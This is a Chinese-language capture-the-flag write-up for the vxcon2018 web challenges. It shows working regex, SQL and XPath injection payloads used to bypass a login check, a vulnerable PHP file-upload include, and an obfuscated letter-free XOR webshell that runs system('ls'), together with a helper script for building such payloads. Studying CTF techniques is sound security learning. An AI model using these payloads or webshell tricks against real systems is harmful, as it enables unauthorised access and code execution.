 # vxcon2018
這次比賽個人覺得難度沒有很高(因為我至少有頭緒:joy:)，題目質量都能確保讓我們學到東西， 下面紀錄一些賽後解出來的題目...

## Lock Pick Duck (1)
[source code](https://github.com/shinmao/CTF-writeups/blob/master/vxcon2018/lpd_source.php)  
payload滿足三個條件就能拿到第一把flag  
```php
if(@preg_match("/^$U,$P$/m", $csvdb)){
        $flag++;
        echo "csvdb1\n";
    }

    if(@$sqldb->querySingle("SELECT username FROM users WHERE username='$U' AND password='$P'") == TRUE){
        $flag++;
        echo "sqldb1\n";
    }

    if(@$xmldb->xpath("//users/user[username='$U' and password='$P']") == TRUE){
        $flag++;
        echo "xmldb1\n";
    }
```
上面是通過的三個條件：  
2和3很簡單，sql injection 和 xpath injection 用
```php
?username='or''='&password='or''='
```
就可以通過  
第一個條件我就想了很久，注入正則想也知道洞很大，卻遲遲想不到怎麼注入  
賽後才知道，不如讓全部都匹配吧:+1:  
```php
?username=(.*)|' or ''='&password=(.*)|' or ''='
```
這樣就可以拿到第一把flag： `Flag 1: vxctf{y0u_d0_kn0w_InjectI0n_101}`  
除此之外，肯定還有很多繞過方法

## Lock Pick Duck (2)
繼上題一樣的source code，payload滿足六個條件就能拿到第二把flag  
第二題我目前最多只能構造到四個條件，xpath的條件都跟其他條件衝突  
不過也學到不少關於`preg_match`跟正則的關係  
payload: `http://trick.fflm.ml/?username=(a)|' union select 'a'--&password=a`  
必須重複刷新直到csv架構中出現**a**字元：`Flag 1: vxctf{y0u_d0_kn0w_InjectI0n_101}`  
[Payload詳解請見這](https://shinmao.github.io/web/2018/04/25/Lock-Pick-Duck/)  
![](https://github.com/shinmao/CTF-writeups/blob/master/vxcon2018/screenshot/LDP4conditions.png)


## Patch Peep Huck (w)
```php
 <?=
!$I=&$_FILES[!!$l='tmp_name'] || $I['size']>>7 || preg_match('/\w/',join(file($I[$l])))?
!show_source(__FILE__) : !include($I[$l]);
```
我在比賽時碰到了**讀不懂代碼**的問題:cold_sweat:  
賽後看了@kaibro的wp真的是讓我驚呆了呀  
首先是:
```php
$_FILES[!!$l='tmp_name']
```
這部分，我對`$_FILES`的結構還是有所了解的。`tmp_name`應該是要在第二層陣列之中，我在這裡卡了好久。原來問題出在`!!`，`!!`會將語句轉為boolean回傳true or false！  
這裏將`tmp_name`傳入參數的動作一定會回傳true，因此事實上這裏傳入`$I`的東東就是`$_FILES[1]`。  
解開了代碼的疑惑，再來看題目想幹嘛：  
上傳FILE，限制FILE的size，並且將FILE的內容join成字串做匹配  
典型的上傳webshell題，內容不能帶有字母，數字，底線  
(上傳檔案不一定要用burp代理，也可以自己寫個upload form，把action設給題目就好)  
一開始我卡在**底線的部分**很久，賽後看了@kaibro引用了在@l4w中的技巧 -> 表情符號  
終於自己寫出了個payload：  
```php
<?=
$😊 = "||||%-" ^ "/%/(``"; 
$😊 ("`|" ^ ",/");
```
剛開始解題的時候，我也有常識XOR的思路，根據P師傅的說法，我們可以用兩個特殊符號做XOR構造出a-z之間的字母，可是我卻怎麼湊都湊不出來...  
賽後才想到，乾脆來寫個php，把所以特殊符號之間的XOR都列出來，直接查表不就得了:  
```php
$arr1 = array("!","'","#","%","&","(",")","[","]","/","\\","?",".",",","^","_","~","*","+","-","<",">","=","{","}","\"",":",";","`","|");
$arr2 = array("!","'","#","%","&","(",")","[","]","/","\\","?",".",",","^","_","~","*","+","-","<",">","=","{","}","\"",":",";","`","|");

foreach ($arr1 as $value1) {
	foreach ($arr2 as $value2) {
		$x = $value1^$value2;
		print($x." ".$value1." ".$value2);
		echo "<br/>";
	}
	echo "<br/>";
}
```
於是通過上面的懶蟲法，我成功湊出了`<?=SYSTEM(LS);`的payload  

## Reference
1. [Kaibro WP](https://github.com/w181496/CTF/tree/master/vxcon2018)  
2. [官方詳解](https://github.com/ozetta/ctf-challenges)  
3. [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
